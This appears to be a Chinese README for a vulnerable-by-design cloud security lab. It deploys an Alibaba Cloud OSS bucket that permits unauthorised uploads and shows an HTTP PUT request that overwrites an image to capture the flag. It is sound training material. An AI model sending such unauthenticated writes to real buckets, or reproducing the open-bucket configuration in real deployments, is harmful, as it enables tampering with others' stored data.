



# 描述

[English](./README.md) | 中文

这是一个帮你快速构建存储桶未授权上传场景的脚本，玩的愉快。

## 部署环境

### Git clone

```bash
cd /TerraformGoat/aliyun/oss/unrestricted_file_upload/ 
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

```bash
terraform init
terraform apply
```

如果确认没有问题，输入yes等待构建即可

## Get Flag

访问/hx.png获取图片



使用PUT方法即可覆盖这张图片

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```



随后在使用GET方法获取我们覆盖的内容



## 销毁挑战

```bash
terraform destroy
```
